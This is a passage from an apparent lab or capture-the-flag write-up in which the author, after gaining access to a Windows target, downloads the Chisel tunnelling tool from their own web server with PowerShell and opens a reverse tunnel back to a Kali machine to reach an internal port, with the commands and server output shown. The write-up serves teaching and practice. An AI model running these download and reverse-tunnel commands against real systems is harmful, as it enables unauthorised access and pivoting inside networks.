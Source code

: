
Because I am still running my Python webser in the work directory of Back2Back I could download the file with a Powershell command: **Invoke-WebRequest -Uri http://10.0.2.15/chisel.exe -OutFile chisel.exe**.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PS C:\windows\temp> Invoke-WebRequest -Uri http://10.0.2.15/chisel.exe -OutFile chisel.exe
PS C:\windows\temp> dir


    Directory: C:\windows\temp


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         11/9/2021   2:31 PM    8818688 chisel.exe                        
-a---         11/9/2021   2:08 PM    1924608 winPEASx64.exe    
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After downloading the file to my target I could start Chisel on the target with the following command: **.\chisel.exe client 10.0.2.15:9002 R:8443:localhost:8443**.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PS C:\windows\temp> .\chisel.exe client 10.0.2.15:9002 R:8443:localhost:8443
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

By hitting enter after entering the command to start a tunnel to my Kali machine I had to check if the connection has been established.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(eMVee@kali)-[~/Documents/Back2Back]
└─$ ./chisel server --reverse --port 9002
2021/11/09 14:46:12 server: Reverse tunnelling enabled
2021/11/09 14:46:12 server: Fingerprint Ckkxcnj4+/UTTbs50+YskdkMzmd05AxhcmwkgfcF5XI=
2021/11/09 14:46:12 server: Listening on http://0.0.0.0:9002
2021/11/09 14:56:52 server: session#1: tun: proxy#R:8443=>localhost:8443: Listening

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

It looks like the tunnel has been established, so I can try to open *http://loclahost:8443* via my browser.

To be sure, I tried to logon to the system without a tunnel to the system.
![Image](/assets/img/WriteUp/ITSL/Back2Back/ITSL-Back2Back-5.png){: width="700" height="400" }
